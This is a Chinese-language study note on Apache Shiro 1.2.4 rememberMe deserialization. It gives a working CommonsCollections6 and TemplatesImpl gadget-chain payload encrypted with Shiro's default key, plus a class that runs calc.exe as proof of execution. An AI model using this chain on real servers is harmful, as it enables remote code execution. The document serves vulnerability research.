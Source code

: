 # CommonsCollections6-Shiro1.2.4笔记

## payload生成



简单打包个shiro项目到tomcat运行，用默认密钥，生成payload

```Java
byte[] payloads = new CommonsCollections6().getPayload("calc.exe");
ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(payloads));
objectInputStream.readObject();
AesCipherService aes = new AesCipherService();
byte[] key =
java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
ByteSource ciphertext = aes.encrypt(payloads, key);
System.out.printf(ciphertext.toString());
```

直接覆盖`rememberMe`后发现报错![](img/1.png)

根据报错最后一行我们看看`org.apache.shiro.io.ClassResolvingObjectInputStream`

![](img/2.png)

看看这个`ClassUtils.forName`

跟入后，发现这里是调用`loadClass`我们继续跟入

![](img/3.png)

看着是重写了，classLoader内部用到了 org.apache.catalina.loader.ParallelWebappClassLoader#loadClass ![](img/4.png)

最后报错的类是 org.apache.commons.collections.Transformer 

![](img/5.png)

这篇文章https://blog.zsxsoft.com/post/35

这里最终得到结论如果反序列化流中包含非Java自身的数组，则会出现无法加载类的错误

这里解决方式是配合TemplatesImpl去加载字节码，调用它的newTransformer即可

后面就是配合触发LazyMap的get方法触发整个过程![](img/6.png)

![](img/7.png)

## 最终payload

```Java
ClassPool pool = ClassPool.getDefault();
CtClass clazz =
    pool.get(test.class.getName());
TemplatesImpl obj = new TemplatesImpl();
setFieldValue(obj, "_bytecodes", new byte[][]{clazz.toBytecode()});
setFieldValue(obj, "_name", "HelloTemplatesImpl");
setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

Transformer transformer = new InvokerTransformer("getClass", null, null);
Map innerMap = new HashMap();
Map outerMap = LazyMap.decorate(innerMap, transformer);

TiedMapEntry tme = new TiedMapEntry(outerMap, obj);
HashMap expMap = new HashMap();
expMap.put(tme,"keykey");
outerMap.remove(obj);
setFieldValue(transformer, "iMethodName", "newTransformer");

ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(barr);
oos.writeObject(expMap);
oos.close();
return barr.toByteArray();
```

test类

```Java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;


public class test extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    public test() throws Exception {
        super();
        Runtime.getRuntime().exec("calc.exe");
    }
}
```

